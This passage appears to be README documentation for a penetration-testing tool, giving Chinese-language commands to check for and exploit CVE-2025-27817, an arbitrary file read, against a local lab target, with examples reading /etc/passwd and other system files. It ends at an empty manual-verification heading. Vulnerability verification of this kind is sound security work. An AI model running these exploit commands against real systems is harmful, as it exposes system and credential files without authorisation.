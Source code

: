 ## 漏洞验证

### 1. 使用 appsploit 工具检测漏洞

```bash
# 编译项目（如果还没编译）
go build -o appsploit ./cmd/appsploit

# 检测漏洞是否存在（使用 --url/-u 参数）
./appsploit checksec CVE-2025-27817 -u http://localhost:8083

# 或使用别名
./appsploit checksec cve_2025_27817 -u http://localhost:8083

# 如果目标URL不包含协议，会自动添加http://
./appsploit checksec CVE-2025-27817 -u localhost:8083

# 如果目标环境的 Kafka Broker 地址不同，使用 --custom-data 参数
./appsploit checksec CVE-2025-27817 -u http://localhost:8083 --custom-data broker=192.168.1.100:9092
```

### 2. 利用漏洞读取文件

```bash
# 读取 /etc/passwd 文件（默认）
./appsploit exploit CVE-2025-27817 -u http://localhost:8083

# 读取指定文件
./appsploit exploit CVE-2025-27817 -u http://localhost:8083 --file /etc/hosts

# 读取其他系统文件
./appsploit exploit CVE-2025-27817 -u http://localhost:8083 --file /etc/hostname

# 使用HTTPS
./appsploit exploit CVE-2025-27817 -u https://example.com:8083 --file /etc/passwd

# 指定自定义 Kafka Broker 地址（当目标环境的 Kafka 配置不同时）
./appsploit exploit CVE-2025-27817 -u http://localhost:8083 --custom-data broker=192.168.1.100:9092 --file /etc/passwd
```

### 3. 使用传统参数方式（针对非HTTP漏洞）

```bash
# 使用 target/port/tls 参数
./appsploit checksec CVE-2025-27817 -t localhost -p 8083
./appsploit exploit CVE-2025-27817 -t localhost -p 8083 -s --file /etc/passwd
```

### 4. 手动验证（可选）
